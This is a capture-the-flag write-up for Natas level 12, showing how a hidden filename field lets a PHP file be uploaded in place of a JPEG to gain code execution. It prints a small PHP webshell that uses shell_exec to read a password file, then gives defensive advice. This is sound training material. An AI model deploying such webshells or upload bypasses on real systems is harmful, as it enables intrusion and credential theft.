


# Natas Level 12 → 13

**Vulnerability:** Unrestricted File Upload Leading to Remote Code Execution
**Difficulty:** Medium
**Tools Used:** Firefox DevTools, PHP
**OWASP Category:** A05 – Security Misconfiguration

---

## What the level gives you

The application provides a file upload form and claims that only JPEG files are accepted.

Inspection of the upload form reveals a hidden field named `filename` which controls the final name of the uploaded file.

The objective is to upload executable PHP code and retrieve the password for Natas13.

---

## Source code analysis

```html
<input type="hidden"
       name="filename"
       value="qgczmjv3mu.jpg">
```

The application relies on a client-controlled parameter to determine the saved filename.

The critical flaw is that the server trusts the value supplied by the browser.

An attacker can modify:

```text
qgczmjv3mu.jpg
```

to

```text
qgczmjv3mu.php
```

before upload.

No server-side validation prevents executable extensions from being stored.

---

## Approach

Initially the application appeared to restrict uploads to JPEG files.

While inspecting the upload form through DevTools, I discovered a hidden filename parameter controlling the server-side output filename.

Instead of uploading an image, I created a simple PHP webshell and changed the hidden field from `.jpg` to `.php`.

Once uploaded, the file became executable through the web server.

---

## Exploitation

PHP payload:

```php
<?php
echo shell_exec('cat /etc/natas_webpass/natas13');
?>
```

Modified hidden field:

```html
<input type="hidden"
       name="filename"
       value="qgczmjv3mu.php">
```

Upload process:

1. Select PHP payload.
2. Modify hidden filename parameter.
3. Upload file.
4. Open uploaded file URL.

Result:

```text
trbs5pCjCrkuSknBBKHhaBxq6w...
```

The password for Natas13 was displayed.

---

## Screenshot

### Hidden filename parameter



### Remote code execution via uploaded PHP file



---

## Real-world relevance

Unrestricted file upload vulnerabilities are frequently rated Critical because they often lead directly to Remote Code Execution.

This vulnerability appears regularly in VAPT engagements involving content management systems, internal portals, and legacy upload functionality where extension validation is performed only on the client side.

---

## Defender's perspective

File extension validation must occur server-side.

Uploaded files should be renamed using random server-generated names and stored outside the web root whenever possible. Executable extensions such as `.php`, `.jsp`, and `.asp` should be blocked entirely.

Web servers should also be configured to prevent script execution within upload directories.